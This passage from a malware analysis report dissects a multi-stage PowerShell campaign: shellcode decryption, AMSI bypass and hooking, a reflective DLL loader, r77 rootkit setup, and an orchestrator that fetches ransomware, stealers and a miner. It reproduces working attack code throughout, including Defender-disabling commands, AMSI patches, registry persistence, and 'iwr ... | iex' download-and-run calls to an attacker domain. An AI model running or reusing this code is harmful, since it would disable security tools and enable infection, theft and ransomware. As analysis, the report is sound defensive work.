    [DllImport("advapi32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    private static extern bool CryptReleaseContext(IntPtr hProv, uint dwFlags);
}
"@
```

**B. Hybrid Decryption Routine**  
The script includes a robust decryption engine capable of handling both **XOR** and **AES** encryption.
- **Primary Attempt (XOR):** It first attempts to decrypt the shellcode using a 16-byte Polyalphabetic XOR key (0x84, 0x2c...).
- **Secondary Fallback (AES):** If XOR fails (though the code forces it to try XOR first), it contains a full implementation of the Windows CryptoAPI (CryptDecrypt, CryptCreateHash) to perform AES-128 decryption.
- **Observation:** The script logic provided shows it using the XOR path with the key 0x84...0x76.
```powershell
$xorKey = [byte[]] @( 0x84, 0x2c, 0xa8, 0x3f, 0xff, 0xb5, 0x77, 0xe9, 0xe0, 0x82, 0xf9, 0x3b, 0x33, 0xdb, 0xb6, 0x76)
$xorShellcode = [byte[]] @(0x6c, 0x2c, 0xa8, ------snip------, 0xe3, 0x8f, 0x5e)
 $aesKey = [byte[]] @( # Replace with output from aes.py
    0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f
)
try {
    [DInvokeShellcode]::ExecuteShellcode($xorShellcode, $aesKey, $xorKey)
    Write-Output "Script execution completed. Shellcode is running in background."
}
catch {
    Write-Error ("Error executing shellcode: " + $_.Exception.Message)
}
```
**C. Redundant Defense Disabling**  
After the shellcode thread is launched, the script executes a "clean-up" routine that mirrors Stage 2:
1. **Defender Kill:** Re-runs `Set-MpPreference` to disable Real-time monitoring and Script Scanning.
2. **AMSI Kill:** Re-runs the Reflection-based memory patch (`amsiSession = $null`).
- **Purpose:** This "scorched earth" strategy ensures that even if the injected shellcode fails or is delayed, the PowerShell environment remains blinded for subsequent commands.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableScriptScanning $true
Set-MpPreference -SubmitSamplesConsent 2
Set-MpPreference -MAPSReporting 0
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -PUAProtection 0
Set-MpPreference -DisableScanningNetworkFiles $true
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -ScanScheduleDay 8
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer" -Name "SmartScreenEnabled" -Value "Off"
 $__m0 = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
 $__m1 = [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils")
 $__f0 = $__m1.GetField("amsiSession", "NonPublic,Static")
 $__f1 = $__m1.GetField("amsiContext", "NonPublic,Static")
 $__f0.SetValue($null, $null)
 $__f1.SetValue($null, [IntPtr]$__m0)
```
### 2.7.3 Payload Extraction
The binary payload was extracted by replicating the script's decryption routine.
- **Source File:** amsibypass_1.ps1
- **Output File:** shellcode_decrypted.bin
```powershell
$xorKey = [byte[]] @( 0x84, 0x2c, 0xa8, 0x3f, 0xff, 0xb5, 0x77, 0xe9, 0xe0, 0x82, 0xf9, 0x3b, 0x33, 0xdb, 0xb6, 0x76)

$encryptedShellcode = [byte[]] @(0x6c, 0x2c, 0xa8, ------snip------, 0xe3, 0x8f, 0x5e)

$outFile = "C:\Users\Profzzor\Desktop\wix\shellcode_decrypted.bin"

$final = New-Object byte[] $encryptedShellcode.Length
for ($i = 0; $i -lt $encryptedShellcode.Length; $i++) {
    $final[$i] = $encryptedShellcode[$i] -bxor $xorKey[$i % $xorKey.Length]
}

[System.IO.File]::WriteAllBytes($outFile, $final)
```

## 2.8 Payload Analysis (Shellcode)
Upon extraction of the payloads from both the "Fileless Loader" (Stage 5) and "AMSI Bypass" module (Stage 6) and, a hash comparison was performed.
### 2.8.1 Payload Identity & Redundancy

| Attribute     | Details                                                          |
| ------------- | ---------------------------------------------------------------- |
| **Source 1**  | fileless-loader.ps1 -> shellcode_decoded.bin                     |
| **Source 2**  | amsibypass_1.ps1 -> shellcode_decrypted.bin                      |
| **File Size** | **314,668 bytes** (~307 KB)                                      |
| **SHA256**    | EDB21AA82C6739C5DFF46C512564CCAE02B39ED8CDDE259173DEC190E8A67AA4 |
```powershell
dir .\shellcode_decoded.bin

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        14-01-2026     00:23         314668 shellcode_decoded.bin

Get-FileHash .\shellcode_decoded.bin

Algorithm       Hash
---------       ----
SHA256          EDB21AA82C6739C5DFF46C512564CCAE02B39ED8CDDE259173DEC190E8A67AA4
```
```powershell
dir .\shellcode_decrypted.bin

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        14-01-2026     00:23         314668 shellcode_decrypted.bin

Get-FileHash .\shellcode_decrypted.bin

Algorithm       Hash
---------       ----
SHA256          EDB21AA82C6739C5DFF46C512564CCAE02B39ED8CDDE259173DEC190E8A67AA4
```

### 2.8.2 Static Analysis: Reflective Loader
The extracted binary is a **Reflective DLL**. The analysis of the decompiled shellcode confirms it uses a custom loader to map itself into memory, bypassing the Windows OS loader.

**A. Bootstrap & Payload Location (Entry Point)**  
The execution begins with a standard "Get PC" (Program Counter) technique to determine its own location in memory and calculate the offset of the embedded payload.
```c
0000 e800000000      call 5          ; Pushes address 0x0005 onto the stack
0005 59              pop rcx         ; RCX = 0x0005 (Current Address)
0006 4989c8          mov r8, rcx     ; Backup Base Address
0009 4881c1230b..    add rcx, 0xb23  ; RCX = 0x05 + 0xB23 = 0xB28
...
0036 e805000000      call 0x40       ; Call Loader(Arg1=PayloadPtr)
```
The code adds 0xb23 to the current instruction pointer (0x05). The result, **0xB28**, is passed as the first argument (RCX) to the loader function at offset 0x40.
This confirms that the malicious DLL (the "MZ" header) is embedded at file offset **0xB28**.

**B. Obfuscation & API Resolution**  
The loader employs two distinct techniques to hide its imports and resolve Windows APIs dynamically.
1. **Stack Strings:** To defeat strings analysis, the function at 0x40 manually constructs key API names on the stack character-by-character.
```c
// Manually building "Sleep"
__builtin_strncpy(&var_168, "Sleep", 5);
// Manually building "VirtualAlloc"
__builtin_strncpy(&var_160, "VirtualAlloc", 0xc);
```
2. **A. API Hashing & Resolution (ROR13)**  
	The function at 0xa1c is the **API Resolution Routine**. It walks the Process Environment Block (PEB) to find loaded modules (kernel32.dll, etc.) and finds exported functions by hashing their names.
- **Algorithm:** **ROR13** (Rotate Right 13).
```c
// From decompilation of sub_a1c
00000ac2    rbx_1 = RORD(rbx_1, 0xd) + rcx_1; // ROR 13 + Char
```
- **Target Hash:** The code calls sub_a1c(0xbdbf9c13) and sub_a1c(0x5ed941b5). These are well-known ROR13 hashes:
    - 0xbdbf9c13 -> LoadLibraryA
    - 0x5ed941b5 -> GetProcAddress

**C. The Loader Loop**  
The function at 0x40 implements the classic Reflective Loader steps:
1. **Header Check:** Checks for PE signature and 0x8664 (x64 machine type).
```c
if (*(uint32_t*)rdi_1 == 'PE' && *(uint16_t*)((char*)rdi_1 + 4) == 0x8664 ...)
```
2. **Section Mapping:** It iterates through the PE sections and copies them to the allocated memory.
```c
// Loop copying data based on Section Headers
(uint8_t)result_1 = i_9[rsi_2];
*(uint8_t*)(i_9 + result) = (uint8_t)result_1;
```
3. **Import Table Resolution:** It walks the Import Table of the new DLL and loads required libraries using the resolved LoadLibraryA.
4. **Relocations:** It processes the Base Relocation Table (.reloc) to adjust memory addresses based on where the DLL was allocated.
```c
// Processing Relocation Block (Type 0xA = IMAGE_REL_BASED_DIR64)
if (rcx_8 == 0xa) { *(uint64_t*)(r8_6 + r11_2 + result) += r14_5; }
```
5. **EntryPoint Execution:** Finally, it calls the DLL's entry point (DllMain).
```c
// Call Entry Point (DLL_PROCESS_ATTACH = 1)
rax_46 = (&result[(uint64_t)*(uint32_t*)((char*)rdi_7 + 0x28)])();
```


This confirms that the shellcode functions as a stub to execute the **64-bit DLL** embedded at offset 0xB28 and size 0x4c200
## 2.9 Extracted Payload Analysis

Following the identification of the start offset at **0xB28**, the embedded PE payload was successfully carved from the shellcode blob. The extracted artifact is a 64-bit Dynamic Link Library (DLL).


### 2.9.1 PE Metadata
Analysis of the extracted DLL headers (see **Figure 2**) reveals the following critical attributes:

| Attribute       | Value                          | Analysis                                                                                                                                                                      |
| --------------- | ------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **File Type**   | `PE64` (DLL)                   | 64-bit Dynamic Link Library                                                                                                                                                   |
| **Size**        | `304.50` KiB (`0x4C200` bytes) | The file size is relatively compact, typical of remote access agents or stagers.                                                                                              |
| **Timestamp**   | `2025-10-03 03:24:01`          | **Compilation Date.** Indicates this specific payload was generated on **October 3, 2025**.                                                                                   |
| **Compiler**    | `Visual Studio 2022 (v17.6)`   | Compiled with Microsoft Visual C/C++.                                                                                                                                         |
| **Sections**    | 7                              | The binary contains 7 sections. This is slightly higher than a standard legitimate DLL (usually 4-5), suggesting potential custom packing or data sections for configuration. |
| **Entry Point** | `0x18000E894`                  | The code execution starts at Relative Virtual Address (RVA) 0xE894.                                                                                                           |
### 2.9.2 Import & Export Analysis
Static analysis of the DLL's symbol tables (**Figure 3**) reveals a highly specific operational focus: **AMSI Manipulation**.



**A. Exports: The Mock Function**  
The DLL exports a single, non-standard function:
- **Name:** `_AmsiScanBuffer` (Ordinal 1)

**B. Imports: The Target & Capability**  
The DLL imports only two libraries, further confirming its specialized nature:
1. **Amsi.dll:**
    - **Function:** AmsiScanBuffer
2. **KERNEL32.dll:**
    - **Critical APIs:** VirtualProtect, VirtualProtectEx, VirtualQuery.
### 2.9.3 Static Analysis: DLL Entry & Initialization
Decompilation of the DLL's entry point (`_start` at `0x18000E894`) reveals the standard initialization sequence for a Visual Studio-compiled binary.

**A. Security Cookie Initialization (sub_18000f08c)**  
Upon loading with `DLL_PROCESS_ATTACH (arg2 == 1)`, the entry point immediately calls `sub_18000f08c`.

- **Logic:** This function generates a **Stack Canary (Security Cookie)** to prevent stack buffer overflows.
- **Entropy Sources:** It gathers system data to randomize the cookie:
    - GetSystemTimeAsFileTime
    - GetCurrentThreadId / GetCurrentProcessId
    - QueryPerformanceCounter

**B. CRT Dispatcher (dllmain_dispatch)**  
After initializing the security cookie, execution passes to dllmain_dispatch (0x18000e76c). This function acts as a router.

- **Function:** It calls the C Runtime initialization (dllmain_crt_dispatch) and, critically, calls the internal function **sub_1800010f0**.
- **Observation:** The function sub_1800010f0 is called during the execution flow. In standard malware compilation, this usually wraps the **actual malicious logic** (the Beacon initialization or the AMSI patching routine).

**C. Execution Flow Summary**
1. **Loader** calls Entry Point (_start).
2. `_start` initializes anti-exploit mechanisms.
3. `_start` calls the Dispatcher.
4. **Dispatcher** executes the internal payload ( `sub_1800010f0`).
### 2.9.4 Static Analysis: The Hooking Engine

Analysis of the internal functions confirms the presence of a sophisticated inline hooking engine. The malware identifies the target function (AmsiScanBuffer) and overwrites its prologue to redirect execution to a "clean" stub.

**A. Payload Initialization (sub_1800010f0)**  
This function serves as the main controller for the hooking logic.

- **Logic:**
    1. **Console Spoofing:** Calls AllocConsole() and redirects CONOUT$ to it, likely to suppress or control output during the patching process.
    2. **Thread Suspending:** Calls sub_18000cac0(GetCurrentThread()). This suspends the current thread to ensure atomicity while modifying code in memory, preventing race conditions or crashes.
    3. **Hook Installation:**
        - If arg2 == 1 (Attach): Calls sub_18000bb80.
        - If arg2 == 0 (Detach): Calls sub_18000c200.
    4. **Target:** Both calls pass `_AmsiScanBuffer` (the internal proxy function) as the redirection target.

**B. Hook Installation (sub_18000bb80 -> sub_18000bbc0)**  
The function at 18000bbc0 implements the hooking logic. It calculates the necessary trampoline (jump) code to overwrite the beginning of the target function.

- **Instruction Analysis (Trampoline Calculation):**
```c
// Calculating relative jump offset
var_60_1 = sx.q(var_38) + var_60_1 + lpAddress_1 - lpAddress_2
// Writing the Jump Instruction (0xE9 ...)
*(var_70_1 + zx.q(var_64_1) + 0x40) = ...
```
- **Memory Protection:**
```c
// Changing permissions to RWX (Execute-Read-Write)
VirtualProtect(lpAddress, dwSize: zx.q(i), flNewProtect: PAGE_EXECUTE_READWRITE, &lpflOldProtect)
```
This explicit call to VirtualProtect with PAGE_EXECUTE_READWRITE (0x40) is the confirmation that the code is modifying executable memory segments at runtime.

**C. Hook Removal / Restoration (sub_18000c200)**  
The function at `18000c200` is responsible for restoring the original bytes if the DLL is unloaded.
- **Logic:** It retrieves the original bytes stored in a backup structure and writes them back to the target address, again using VirtualProtect to enable writing.
### 2.9.5 The Bypass Logic (Argument Swapping)

The proxy function `_AmsiScanBuffer` (0x180001000) does **not** simply return a success code. Instead, it employs an **Argument Swapping** technique.
```c
// Decompiled logic of the proxy function
sub_1800014d0(..., "[+] AmsiScanBuffer called"); // Log activity
...
// Call Original AMSI, but replace 'buffer' (arg2) with "SafeString"
return OriginalAmsiScanBuffer(arg1, "SafeString", arg3, arg4, arg5, arg6);
```
**Mechanism:**
1. **Interception:** When PowerShell attempts to scan a malicious script, the execution is redirected to this proxy.
2. **Logging:** The malware prints the buffer length and details to the spoofed console (likely for the attacker's debugging).
3. **The Switch:** It calls the legitimate AmsiScanBuffer function but replaces the pointer to the malicious code with a pointer to the static string **"SafeString"**.
4. **Result:** Windows Defender scans the string "SafeString", determines it is benign, and returns AMSI_RESULT_CLEAN. The malware effectively "laundered" the scan request.
## 2.10 Stage 6: Final Payload Delivery (stage1.ps1)

This script acts as the gatekeeper. It is retrieved from the C2 server only after the persistence mechanisms are established and the system defenses (AMSI) have ideally been neutralized by the previous stages.
### 2.10.1 Redundant Defense Evasion
Despite previous stages already patching AMSI, this script performs a "Check-and-Mate" bypass at the very first line of execution.

- **Technique:** **Matt Graeber's Reflection Method**.
- **Code:** `[Ref].Assembly.GetType(...).GetField('amsiInitFailed',...).SetValue($null,$true);`
- **Purpose:** This ensures that even if the previous AMSI hooking DLL (analyzed in Section 2.9) failed to inject or crashed, the current PowerShell session is still blinded before the final payload is decrypted.
### 2.10.2 Payload Decryption
The script follows the established obfuscation pattern of the campaign but rotates the cryptographic key again to prevent generic decryption tools from working.

1. **Sanitization:** Removes a junk string (`cG7Rq...`).
2. **Decoding:** Base64 Decode.
3. **Decryption (XOR):**
    - **Key:** 64 (0x40).
    - Observation: This is the fourth unique single-byte key used in the chain (139 -> 229 -> 11 -> 64).
4. **Decompression:** Gzip.
5. **Execution:** IEX $plain (Executes the decrypted payload in memory).
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true);
IEX @'
Start-Sleep -m 1;
$dbFbYoUrPYAuwp=1;
[GC]::Collect()|Out-Null;
$data = 'X8tIQ------snip------skglAQA=='
$data = $data -replace 'cG7Rq9egIxIyHgTBspSCWCOylrLI0yiLzlfbZH91oWYeGcdBKg725jXkn3vjctSTexyQQbQM2PGm1u',''
$bytes = [Convert]::FromBase64String($data)
$bytes = $bytes | % { $_ -bxor 64 }
$ms = New-Object IO.MemoryStream(, $bytes)
$gs = New-Object IO.Compression.GzipStream($ms, [IO.Compression.CompressionMode]::Decompress)
$sr = New-Object IO.StreamReader($gs, [Text.Encoding]::Unicode)
$plain = $sr.ReadToEnd()
$sr.Close(); $gs.Close(); $ms.Close()
IEX $plain
'@
```

### 2.10.3 Payload Extraction
The analysis intercepted the decryption routine and dumped the content to disk.
- **Input:** stage1.ps1
- **Output:** stage1_1.ps1
```powershell
$data = 'X8tIQ------snip------skglAQA=='
$data = $data -replace 'cG7Rq9egIxIyHgTBspSCWCOylrLI0yiLzlfbZH91oWYeGcdBKg725jXkn3vjctSTexyQQbQM2PGm1u',''
$bytes = [Convert]::FromBase64String($data)
$bytes = $bytes | % { $_ -bxor 64 }
$ms = New-Object IO.MemoryStream(, $bytes)
$gs = New-Object IO.Compression.GzipStream($ms, [IO.Compression.CompressionMode]::Decompress)
$sr = New-Object IO.StreamReader($gs, [Text.Encoding]::Unicode)
$plain = $sr.ReadToEnd()
$sr.Close(); $gs.Close(); $ms.Close()
$plain | Out-File -FilePath "C:\Users\Profzzor\Desktop\wix\stage1_1.ps1" -Encoding Unicode
```
## 2.11 Variant Analysis: The Orchestrator Script
The decrypted script (stage1_1.ps1) functions as a **Mass Deployment Orchestrator**. Its primary purpose is to download a large library of secondary scripts and execute them simultaneously.
### 2.11.1 Immediate Defense Evasion
The script's very first action is to download and execute the **AMSI Bypass** module (amsibypass.ps1) analyzed in Section 2.5.

- **Code:** `try { iwr -uri '.../amsibypass.ps1' ... | iex } catch {}`
- **Polymorphism:** Analysis indicates that this specific instance of amsibypass.ps1 uses **XOR Key 48** (0x30) for decryption, whereas the version analyzed in `Section 2.5` used **Key 11**.
- **Payload Identity:** Despite the cryptographic variation (Polymorphism) used to evade hash-based signatures, the underlying decrypted payload remains identical: it is the same **Native AMSI Hooking DLL** designed to blind the antivirus before the script processes the remaining malicious variables.
### 2.11.2: Payload Definition (Command Staging)
The script defines a list of 16 variables. Crucially, due to the use of double quotes ("), these lines **do not** immediately download the payloads. Instead, they store the **download command** as a string to be executed later.
```powershell
$autoelevatepayload = = "(iwr https://017fa032.thisisnotyourland.pages.dev/attempt-elevation.ps1 -useb).ReadToEnd()"
$pivotpayload     = "(iwr https://017fa032.thisisnotyourland.pages.dev/pivot.ps1 -useb).ReadToEnd()"
$psexecpayload    = "(iwr https://017fa032.thisisnotyourland.pages.dev/worm.ps1 -useb).ReadToEnd()"
$ztinstallpayload = "(iwr https://017fa032.thisisnotyourland.pages.dev/ztinstall.ps1 -useb).ReadToEnd()"
# ... (12 other payloads)
```
### 2.11.3 High-Integrity System Tampering
The script performs a privilege check ($isAdministrator). If it is running with Administrator rights, it initiates an aggressive "Scorched Earth" protocol to permanently disable defenses and establish system-wide persistence.
```powershell
$currentUser = [System.Security.Principal.WindowsIdentity]::GetCurrent()
$principal   = New-Object Security.Principal.WindowsPrincipal($currentUser)
$isAdministrator = $principal.IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)
if ($isAdministrator) {
    try {
        if (-not (Test-Path $adminhidden)) {
            New-Item -Path $adminhidden -ItemType Directory -Force | Out-Null
            attrib +H +S "$adminhidden" 2>$null
        }
        $defPrefs = @(
            "-DisableRealtimeMonitoring `$true",
            "-DisableIOAVProtection `$true",
            "-DisableScriptScanning `$true",
            "-DisableIntrusionPreventionSystem `$true",
            "-SubmitSamplesConsent 2",
            "-MAPSReporting 0"
        )
        foreach ($p in $defPrefs) { Set-MpPreference $p -ErrorAction SilentlyContinue }
        Stop-Service -Name WinDefend,MsMpEng -Force -ErrorAction SilentlyContinue
        $regPath = "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run"
        $payload = "powershell -w hidden -ep bypass -c iwr https://017fa032.thisisnotyourland.pages.dev/stage0.ps1 -UseB | iex"
        Set-ItemProperty -Path $regPath -Name "WinUpdateService" -Value $payload -Force -ErrorAction SilentlyContinue
        Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `"$kernelcheck | iex`"" -ErrorAction SilentlyContinue
        $hostsPath = "$env:SystemRoot\System32\drivers\etc\hosts"
        $entries = "0.0.0.0 securitycopilot.microsoft.com",
                   "0.0.0.0 api.githubcopilot.com",
                   "0.0.0.0 copilot.microsoft.com"
        foreach ($e in $entries) {
            if (-not (Select-String -Path $hostsPath -Pattern ([regex]::Escape($e)) -Quiet)) {
                Add-Content -Path $hostsPath -Value $e -ErrorAction SilentlyContinue
            }
        }
        Set-MpPreference -ExclusionPath $adminstartup,$temppath,$admintrackerjacker,$adminhidden -ErrorAction SilentlyContinue
```
1. **System-Wide Persistence (HKLM):**  
    Unlike the previous stages which used User-level keys (HKCU), this script utilizes the **Local Machine (HKLM)** "Run" key.
    - **Key Name:** WinUpdateService (Masquerading as Windows Update).
    - **Impact:** This ensures the malware runs for **every user** on the system upon boot, not just the current victim.
        
2. **Polymorphic Payload Delivery:**  
    The persistence command downloads stage0.ps1
    - **Variant Analysis:** While the filename (stage0.ps1) matches the file analyzed in Section 2.4, detailed analysis reveals that this version uses **XOR Key 211** (0xD3) for decryption, whereas the previous version used **XOR Key 229** (0xE5).
    - **Significance:** This confirms the campaign utilizes **Polymorphism**. The attacker generates unique, re-encrypted variants of the same loader (Loader A, Loader B) to render hash-based blacklisting ineffective.

3. **Defense Neutralization:**  
    The script iterates through Set-MpPreference to disable Real-time Monitoring and IOAV Protection. Crucially, it adds the specific drop locations of its upcoming payloads ($adminstartup, $adminhidden) to the **Exclusion List**, ensuring the installers dropped in later steps are ignored by the AV.
### 2.11.4 Concurrent Payload Execution
After preparing the system and staging the command strings, the staging string-encoded commands evaluates and executes them in parallel using a pooled .NET Runspace architecture, allowing multiple payloads to be downloaded and run concurrently.
```powershell
$rp = [runspacefactory]::CreateRunspacePool(1,16)
$rp.Open()
$payloads = '$pivotpayload','$psexecpayload','$ztinstallpayload','$rubeuspivot','$webdelivery',
            '$addadmin','$shwatchdog','$powerstealer','$bombthreat','$changewallpaper', '$filelessransomware', '$filelesskernelexploit', '$filelessloader','$filelessransomwarehooks'
foreach ($var in $payloads) {
    try {
        $code = Invoke-Expression $var
        $ps = [powershell]::Create().AddScript($code)
        $ps.RunspacePool = $rp
        $ps.BeginInvoke() | Out-Null
    } catch {}
}
```
1. **The Trigger (Invoke-Expression):**
    - As noted in Section 2.11.2, variables like `$filelessransomware` previously held only the command string (e.g., "`(iwr ...).ReadToEnd()`").
    - The command $code = Invoke-Expression $var effectively "detonates" this string. It forces the script to reach out to the C2 server, download the raw source code of the malicious payload, and store the actual script content in the variable.
2. **Multi-Threading (RunspacePool):**
    - The script creates a **RunspacePool** allowing up to **16 concurrent threads**.
    - Standard PowerShell execution is linear (one command waits for the previous one to finish). By using `[powershell]::Create()` and `.BeginInvoke()`, the malware forces the system to execute **simultaneously**.
### 2.11.5 Rootkit Deployment & Process Hardening
Following the payload execution, the script performs advanced system modification to hide its presence and harden its processes against termination.
```powershell
iwr 'https://017fa032.thisisnotyourland.pages.dev/cwiper.exe' -outfile $adminstartup -ErrorAction SilentlyContinue # (Adobe Acrobat.exe)
        $proc = Start-Process $adminstartup -NoNewWindow -PassThru -ErrorAction SilentlyContinue
        if ($proc) { $targetPID = $proc.Id }
	iwr 'https://017fa032.thisisnotyourland.pages.dev/fileless-kernelexploit.ps1' -UseB | iex
        iwr 'https://017fa032.thisisnotyourland.pages.dev/ktool.exe' -outfile $temppath -ErrorAction SilentlyContinue
        if ($targetPID) { Start-Process $temppath -ArgumentList "$targetPID","fd6c57fa3852aec8" -ErrorAction SilentlyContinue }
        iwr 'https://017fa032.thisisnotyourland.pages.dev/trackerjacker.ps1' -outfile $admintrackerjacker -ErrorAction SilentlyContinue
        iwr 'https://017fa032.thisisnotyourland.pages.dev/sh.exe' -outfile $adminhidden -ErrorAction SilentlyContinue
        $proc2 = Start-Process $adminhidden -NoNewWindow -PassThru -ErrorAction SilentlyContinue
        if ($proc2) { Start-Process $temppath -ArgumentList "$($proc2.Id)","fd6c57fa3852aec8" -ErrorAction SilentlyContinue }
        try { New-Item -Path "HKLM:\SOFTWARE\$r77config\process_names" -Force -ErrorAction SilentlyContinue | Out-Null } catch {}
        foreach ($p in "cwiper","sh","ktool","powershell","conhost","cmd") {
            New-ItemProperty -Path "HKLM:\SOFTWARE\$r77config\process_names" -Name $p -Value "$p.exe" -PropertyType String -Force -ErrorAction SilentlyContinue | Out-Null
        }
        iwr 'https://017fa032.thisisnotyourland.pages.dev/rkd.exe' -outfile 'rkd.exe' -ErrorAction SilentlyContinue
        Start-Process 'rkd.exe' -ErrorAction SilentlyContinue
```
**A. Masquerading & Persistence**  
The script downloads a binary named cwiper.exe but saves it to the Startup folder as **Adobe Acrobat.exe**.

- **Purpose:** This disguises the malware as a legitimate PDF reader to evade user suspicion during a casual inspection of the Startup items.
- **Execution:** It launches this binary immediately and captures its Process ID ($targetPID).

**B. Process Hardening (ktool.exe)**  
The script utilizes a helper tool named ktool.exe to modify the running malware processes (cwiper.exe and sh.exe).
- **Arguments:** It executes ktool.exe with two specific arguments:
    1. The **Target PID** of the malware process.
    2. A hardcoded value: **fd6c57fa3852aec8**.

**C. r77 Rootkit Installation**  
The script explicitly configures and installs the **r77 Rootkit** (Ring 3 Rootkit).
- **Configuration:** It modifies the registry at `HKLM:\SOFTWARE\$r77config\process_names` to register specific process names for hiding: cwiper, sh, ktool, powershell, conhost, and cmd.
- **Activation:** It downloads and runs rkd.exe (Rootkit Daemon).
- **Impact:** Once active, the r77 rootkit intercepts function calls (hooking) to hide any process matching those names. The malware will become invisible to the user in Task Manager and to standard administration tools.
### 2.11.6 Standard User Fallback & Persistence
If the privilege check fails (i.e., the malware is not running as Administrator), the script executes a secondary routine designed for **Low-Integrity** environments.
```powershell
$userhidden         = [Environment]::GetFolderPath("Startup") + "\hidden\sh.exe"

try {
    if (-not (Test-Path $userhidden)) {
        New-Item -Path $userhidden -ItemType Directory -Force | Out-Null
        attrib +H +S "$userhidden" 2>$null
    }
	$rp = [runspacefactory]::CreateRunspacePool(1,16)
	$rp.Open()
	$payloads = '$autoelevatepayload','$pivotpayload','$psexecpayload','$ztinstallpayload','$rubeuspivot','$webdelivery',
	            '$addadmin','$shwatchdog','$powerstealer','$bombthreat','$changewallpaper', '$filelessransomware','$filelessransomwarehooks'
	foreach ($var in $payloads) {
	    try {
	        $code = Invoke-Expression $var
	        $ps = [powershell]::Create().AddScript($code)
	        $ps.RunspacePool = $rp
	        $ps.BeginInvoke() | Out-Null
	    } catch {}
	}
    iwr 'https://017fa032.thisisnotyourland.pages.dev/cwiper.exe' -outfile $userstartup -ErrorAction SilentlyContinue
    Start-Process $userstartup -ErrorAction SilentlyContinue
    iwr 'https://017fa032.thisisnotyourland.pages.dev/trackerjacker.ps1' -outfile $usertrackerjacker -ErrorAction SilentlyContinue
    iwr 'https://017fa032.thisisnotyourland.pages.dev/sh.exe' -outfile $userhidden -ErrorAction SilentlyContinue
    Start-Process $userhidden -ErrorAction SilentlyContinue
}
catch { }
```
1. **Nested Stealth Persistence:**  
    Instead of dropping the file directly into the Startup folder, the malware defines a nested path: `%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\hidden\sh.exe`.
    - **Attributes:** It applies **System (+S)** and **Hidden (+H)** attributes to this path.
    - **Intent:** This is a specific anti-forensic technique. By creating a subdirectory (likely intending to hide the folder hidden or the file sh.exe), the attacker hopes that a user or admin manually checking the Startup folder will not see the malicious binary unless they have "Show Protected Operating System Files" enabled.
        
2. **Persistent Elevation Attempts:**  
    The script executes the payload list, which includes **$autoelevatepayload**. This confirms that even if stuck in a low-privilege context, the malware continuously runs attempt-elevation.ps1 in the background, probing  to gain Admin rights.
    
3. **Secondary Binary (sh.exe):**  
    The script downloads sh.exe to this hidden location and executes it. Based on the name and context, this is likely a **C2 agent** ensuring the attacker retains access even if the primary PowerShell process is terminated.
### 2.11.7 Exfiltration, Monetization, and Distraction
The script concludes by executing a sequence of actions designed to monetize the infection immediately and cover its tracks using social engineering.
```powershell
try { iwr -uri 'https://017fa032.thisisnotyourland.pages.dev/lootsubmit.ps1' -UseBasicParsing | iex } catch {}
foreach ($n in 2..5) {
    try {
        iwr "https://017fa032.thisisnotyourland.pages.dev/sh$n.exe" -outfile "sh$n.exe" -ErrorAction SilentlyContinue
        Start-Process "sh$n.exe" -ErrorAction SilentlyContinue
    } catch {}
}
try { iwr -uri 'https://017fa032.thisisnotyourland.pages.dev/xmrigstart.ps1' -UseBasicParsing | iex } catch {}
try { iwr -uri 'https://017fa032.thisisnotyourland.pages.dev/watchdoggo.ps1' -UseBasicParsing | iex } catch {}
try {
    New-Item -Path "C:\Temp" -ItemType Directory -Force | Out-Null
    iwr "https://statics.teams.cdn.office.net/production-windows-x64/enterprise/webview2/lkg/MSTeams-x64.msix" -OutFile "C:\Temp\Teams.msix" -ErrorAction SilentlyContinue
    Add-AppxPackage -Path "C:\Temp\Teams.msix" -ForceApplicationShutdown -ErrorAction SilentlyContinue
} catch {}
$links = @(
    'https://www.reddit.com/r/indianajones/comments/149dr9l/harrison_ford_finally_weighs_in_its_ok_to_punch/'
    'https://www.youtube.com/watch?v=lgLsaoZ9aqg'
    'https://vimeo.com/1131581845?share=copy&fl=sv&fe=ci'
    'https://vimeo.com/1131582008?share=copy&fl=sv&fe=ci'
    'https://www.youtube.com/watch?v=U02E2sjwlLM&t=20'
)
foreach ($l in $links) { Start-Process $l -WindowStyle Hidden -ErrorAction SilentlyContinue }
try { Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `"$webdelivery | iex`"" -ErrorAction SilentlyContinue } catch {}
```
**A. Data Exfiltration (lootsubmit.ps1)**  
The script executes lootsubmit.ps1.
- **Purpose:** This script likely aggregates the credentials, cookies, and system info harvested by the previous payloads ($powerstealer, $rubeuspivot) and uploads them to the attacker's Drop Server.

**B. Redundancy (Multiple Agents)**  
The script enters a loop 2..5 to download and execute sh2.exe, sh3.exe, sh4.exe, and sh5.exe.
- **Tactical Significance:** This is a **"Zombie Horde"** technique. By spawning multiple independent shell agents (likely connecting to different ports or C2s), the attacker ensures that even if defenders terminate sh.exe, four other backup agents remain active.

**C. Cryptojacking (XMRig)**  
The script executes xmrigstart.ps1.
- **Payload:** **XMRig**, a notorious open-source Monero miner.
- **Impact:** This confirms the attack has a financial motive beyond ransomware. The victim's CPU resources will be hijacked to mine cryptocurrency for the attacker.
- **Maintenance:** It also runs watchdoggo.ps1, a monitoring script likely designed to restart the miner or the malware agents if they are terminated.

**D. Legitimacy Masquerading (Microsoft Teams)**  
